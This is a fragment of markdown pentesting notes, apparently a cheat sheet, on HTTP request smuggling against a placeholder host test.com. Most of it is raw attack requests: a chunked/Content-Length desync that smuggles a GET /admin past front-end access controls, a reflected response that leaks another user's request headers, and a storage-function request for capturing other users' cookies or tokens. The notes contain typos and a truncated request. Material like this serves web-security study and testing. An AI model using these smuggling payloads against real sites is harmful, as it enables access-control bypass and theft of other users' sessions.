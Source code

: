 ```HTTP
language=EN&search=POST /login HTTP/1.1
Host: test.com
<snip>
```
Need to set the `Content-Length` to 100 as we don't no how long the request is.
Best to start small and increase.
### Response
```html
<h1>
	0 search results for 'POST /login HTTP/1.1
	Host test.com
	UID: 7367
	X-Forwarded-For: 13.113.31.185
	X-Forward'
</h1>
```
## Bypassing Front-End Access Controls
* Request a restricted URL, that you don't have access to along with a legitimate request. 
### Request Smuggling
```HTTP
POST / HTTP/1.1
Host: Test.com
Content-Type: application/x-www-form-urlencoded
Content-Lenght: 61
Transfer-Encoding: chunked

0

GET /admin /HTTP/1.1
HOST: test.com
Fake-Header:
```
## Revealing Other User Requests 
* If you find some other functionality that allows data storage and retrieval, its possible to use HTTP requests smuggling to reveal the contents of other users. 
	* Sensitive data such as auth-tokens or cookies
* Look for comments, profile edits or image uploads.
### Storage function 
```http
POST /update-profile HTTP/1.1
Host: test.com
Content-Type: application/x-www-form-urlencoded
Content-Lenght: 70
Cookie: session=91as8d907ascdsa978shcajn

update_bio=This%20is%20my%20profile&lang=EN&user=hax0r
```
